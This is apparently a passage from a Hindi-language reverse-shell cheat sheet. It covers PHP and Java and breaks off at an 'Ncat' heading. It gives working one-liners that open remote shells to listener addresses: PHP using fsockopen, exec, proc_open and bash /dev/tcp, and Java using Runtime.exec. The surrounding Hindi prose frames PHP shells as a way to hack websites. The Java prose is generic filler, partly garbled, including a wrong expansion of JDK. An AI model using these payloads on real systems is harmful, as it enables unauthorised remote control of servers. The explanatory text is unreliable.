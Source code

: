 PHP के लिए शेल एक उपयोगी टूल है जो वेबसाइटों को हैक करने में मदद करता है। शेल का उपयोग करके आप PHP स्क्रिप्ट को सर्वर पर अपलोड कर सकते हैं और उसे रन कर सकते हैं। शेल के माध्यम से आप वेबसाइट के फ़ाइलों को पढ़ सकते हैं, लिख सकते हैं, और संपादित कर सकते हैं। इसके अलावा, आप शेल के माध्यम से डाटाबेस के साथ कनेक्शन बना सकते हैं और डाटाबेस के डेटा को पढ़, लिख और संपादित कर सकते हैं।

शेल के लिए कुछ उपयोगी PHP फ़ंक्शन हैं जैसे कि `shell_exec()`, `exec()`, `system()`, `passthru()` और `popen()`। इन फ़ंक्शन का उपयोग करके आप शेल कमांड्स को चला सकते हैं और उनके आउटपुट को प्राप्त कर सकते हैं। यह आपको वेबसाइट के सर्वर पर विभिन्न कार्रवाईयों को करने की अनुमति देता है, जैसे कि फ़ाइलों को डाउनलोड करना, फ़ाइलों को अपलोड करना, फ़ाइलों को हटाना, डाटाबेस के साथ कार्रवाई करना आदि।

शेल का उपयोग करते समय सुरक्षा का ध्यान रखना बहुत महत्वपूर्ण है। शेल के उपयोग को सीमित करने के लिए, आपको शेल एक्सीक्यूशन के लिए अनुमति देने से पहले उपयोगकर्ता की इनपुट को सत्यापित करना चाहिए। इसके अलावा, आपको शेल कमांड्स को संग्रहीत करने और उन्हें सुरक्षित रखने के लिए उचित सुरक्षा उपाय अपनाने चाहिए।
```php
// Using 'exec' is the most common method, but assumes that the file descriptor will be 3.
// Using this method may lead to instances where the connection reaches out to the listener and then closes.
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

// Using 'proc_open' makes no assumptions about what the file descriptor will be.
// See https://security.stackexchange.com/a/198944 for more information
<?php $sock=fsockopen("10.0.0.1",1234);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>

<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.8/4444 0>&1'"); ?>
```
## जावा

Java एक उच्च स्तरीय, विश्वसनीय, और सुरक्षित प्रोग्रामिंग भाषा है जो विभिन्न प्लेटफ़ॉर्मों पर चलने वाले एप्लिकेशन विकसित करने के लिए उपयोग की जाती है। यह एक ऑब्जेक्ट-ओरिएंटेड भाषा है जिसमें एकल थ्रेड और बहु-थ्रेड एप्लिकेशन विकसित किए जा सकते हैं। जावा को स्थानीय या वेब आधारित एप्लिकेशन, मोबाइल एप्लिकेशन, गेम, डेस्कटॉप एप्लिकेशन, और डेटाबेस एप्लिकेशन जैसे विभिन्न उद्देश्यों के लिए उपयोग किया जा सकता है।

जावा को कंपाइल करने के लिए JDK (जावा विकासकियों का संगठन) की आवश्यकता होती है, जो जावा कोड को मशीन कोड में बदलता है। जावा कोड को कंपाइल करने के बाद, इसे JVM (जावा वर्चुअल मशीन) पर चलाया जा सकता है, जो जावा कोड को विभिन्न प्लेटफ़ॉर्मों पर चलने के लिए अनुभव कराता है।

जावा में कुछ महत्वपूर्ण ख़ासियतें शामिल हैं, जैसे कि गारबेज कलेक्शन, एक्सेप्शन हैंडलिंग, थ्रेडिंग, और जावा एप्लेट्स। यह भाषा अद्यतित और सुरक्षित रहने के लिए नियमित रूप से अपडेट की जाती है और इसमें विभिन्न लाइब्रेरी और फ्रेमवर्क्स उपलब्ध हैं जो विकासकों को अधिक सुविधाएं प्रदान करते हैं।

जावा का उपयोग करके, आप विभिन्न उद्देश्यों के लिए एप्लिकेशन विकसित कर सकते हैं, जैसे कि वेब विकास, डेटा विज़ुअलाइज़ेशन, मोबाइल एप्लिकेशन, और गेम विकास। जावा की व्यापकता और सुरक्षा के कारण, यह एक लोकप्रिय प्रोग्रामिंग भाषा है और उद्योग में व्यापक रूप से उपयोग की जाती है।
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Ncat
